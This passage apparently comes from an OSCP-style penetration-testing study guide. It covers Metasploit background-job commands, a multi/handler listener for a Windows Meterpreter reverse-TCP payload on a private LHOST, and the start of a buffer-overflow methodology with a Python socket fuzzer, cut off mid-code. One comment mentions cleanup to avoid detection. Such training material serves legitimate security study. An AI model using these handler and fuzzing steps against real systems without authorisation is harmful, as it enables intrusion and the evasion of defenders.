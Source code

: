 ```bash
# - Multiple concurrent sessions need organization
# - Session stability varies by payload type
# - Upgrading shells provides enhanced capabilities
# - Proper cleanup prevents detection

# Background job management
jobs                                         # List background jobs
jobs -k 1                                    # Kill job 1
jobs -K                                      # Kill all jobs
jobs -i 1                                    # Get information about job 1

# Handler management for manual payloads
use exploit/multi/handler                    # Generic payload handler
set payload windows/meterpreter/reverse_tcp  # Set payload type
set LHOST 192.168.1.5                       # Set listening host
set LPORT 4444                               # Set listening port
exploit -j                                   # Start handler as background job

# Why handlers are important:
# - Catch shells from manual exploitation
# - Handle custom payload execution
# - Provide persistent listening capability
# - Enable multi-stage payload delivery
```

## Manual Exploitation Techniques

### **Buffer Overflow Exploitation (OSCP Focus)**

**What buffer overflows are:** Memory corruption vulnerabilities where input data exceeds allocated buffer space, potentially allowing code execution through stack manipulation.

**Why buffer overflow skills are essential:** Core OSCP requirement. Demonstrates deep understanding of exploitation fundamentals. Common in legacy applications and embedded systems.

**Buffer overflow methodology:** Fuzzing → Crash analysis → Offset identification → Bad character detection → Return address control → Shellcode execution.

```bash
# Step 1: Initial fuzzing and crash discovery
cat > fuzzer.py << 'EOF'
#!/usr/bin/env python3
import socket
import sys

def fuzz_target(target_ip, target_port):
    """Basic buffer overflow fuzzing"""
    buffer_sizes = [100, 200, 300, 400, 500, 1000, 1500, 2000, 2500, 3000]
    
    for size in buffer_sizes:
        try:
            print(f"[+] Sending buffer of size: {size}")
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(5)
            s.connect((target_ip, target_port))
            
            # Create buffer with pattern
            buffer = "A" * size
            s.send(buffer.encode())
            s.recv(1024)
            s.close()
            print(f"[+] Size {size}: No crash")
            
        except socket.timeout:
```
